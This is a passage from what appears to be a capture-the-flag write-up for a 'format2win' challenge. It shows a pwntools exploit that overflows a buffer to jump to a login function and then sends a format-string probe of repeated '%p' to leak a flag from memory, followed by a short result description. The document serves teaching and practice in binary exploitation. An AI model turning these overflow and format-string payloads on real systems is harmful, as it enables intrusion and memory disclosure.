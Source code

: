 ```py
# Construct payload
payload = flat([
    offset * b'A',
    elf.symbols.login
])

io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b"%p " * 30)

# Get our flag/shell
io.interactive()
```

### Result
![IMG](/assets/images/boh2022-format2win/img8.png)

Looks good, we can see some ASCII-like hex values that looks like the flag (Local flag: FAKE{FLAG}):

![IMG](/assets/images/boh2022-format2win/img9.png)
